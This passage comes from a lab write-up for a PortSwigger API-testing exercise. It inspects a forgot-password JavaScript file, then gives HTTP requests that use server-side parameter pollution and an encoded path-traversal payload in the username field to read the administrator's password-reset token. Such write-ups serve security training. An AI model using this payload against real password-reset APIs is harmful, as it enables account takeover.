 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-5/images/Pasted%20image%2020240510192631.png)

As expected, it returned the username value!

**Moreover, by viewing the source page of `/forgot-password`, we can see that there's a JavaScript file being loaded:**
```html
<script src="/static/js/forgotPassword.js"></script>
```

**`/static/js/forgotPassword.js`:**
```javascript
let forgotPwdReady = (callback) => {
    if (document.readyState !== "loading") callback();
    else document.addEventListener("DOMContentLoaded", callback);
}
[...]
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?passwordResetToken=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

When the DOM (Document Object Model) has fully loaded, if GET parameter name `reset-token` exist, it'll redirect us to `/forgot-password?passwordResetToken=<resetToken>`.

Hmm... What if we **exploit the server-side parameter pollution and path traversal to retrieve `administrator`'s reset token**??

To do so, we first generate a reset token for account `administrator`:

```http
POST /forgot-password HTTP/2

csrf=jzd7KrpvqB9nYMaDfeD9faWWUgNf8jBh&username=administrator
```

**Then, exploit the server-side parameter pollution and path traversal to get its reset token:**
```http
POST /forgot-password HTTP/2

csrf=jzd7KrpvqB9nYMaDfeD9faWWUgNf8jBh&username=foobar%2f..%2f..%2f..%2f..%2f..%2f/api/internal/v1/users/administrator/field/passwordResetToken%23
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-5/images/Pasted%20image%2020240510193151.png)
